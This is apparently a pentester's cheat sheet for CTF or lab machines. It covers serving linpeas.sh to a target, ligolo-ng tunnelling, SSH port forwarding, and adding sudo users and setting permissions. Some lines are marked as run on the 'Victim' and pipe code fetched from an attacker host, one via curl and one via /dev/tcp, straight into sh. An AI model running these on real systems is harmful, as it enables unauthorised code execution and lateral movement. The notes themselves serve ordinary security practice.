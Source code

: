# Without curl
python -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

python3 -c "import urllib.request; urllib.request.urlretrieve('https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh', 'linpeas.sh')"

# Local network
sudo python3 -m http.server 80 #Host
curl 10.10.10.10/linpeas.sh | sh #Victim

# Without curl
sudo nc -q 5 -lvnp 80 < linpeas.sh #Host
cat < /dev/tcp/10.10.10.10/80 | sh #Victim

ligolo-ng port forwarding tool commands:

sudo ip tuntap add user [your_username(kali)] mode tun ligolo
sudo ip link set ligolo up
./proxy -selfcert (for hacking ctf machines)
./proxy -autocert (for real world)
./agent -connect 10.10.16.35:11601 -ignore-cert (target machine use this command)
session (choose session or simply press senter)
start (use this command in ligolo)
sudo ip route add 240.0.0.1/32 dev ligolo (to route the local running services to our machine magic ip)

SSH RELATED:

nano /etc/ssh/sshd_config
cat /etc/passwd | cut -d: -f1  #(display all users in the machine)
sudo service ssh restart 
sudo passwd -S username
sudo passwd -u username
ssh kristi@10.10.10.247 -p 2222 -L 5555:localhost:5555 #(ssh portforwarding for adb in mobile)

for adding a new user:

sudo adduser cyber
sudo usermod -aG sudo cyber
nano /etc/sudoers    #(adding user to sudoers file to get su permission)
usrname  ALL=(ALL:ALL) ALL

searching and removing user from using sudo and giving file permissions:

sudo gpasswd -d username sudo (to remove sudo permisson of anyuser)
getent group sudo (to list the sudo users in sudo group)

nano /etc/sudoers    (adding user to sudoers file to get su permission)
username  ALL=(ALL:ALL) ALL (giving all executable permissions)

sudo chown -R kali:www-data html
sudo chmod -R 750 folder (to remove forbidden access)
sudo chmod g+w /var/www/html/*.php /var/www/html/*.html
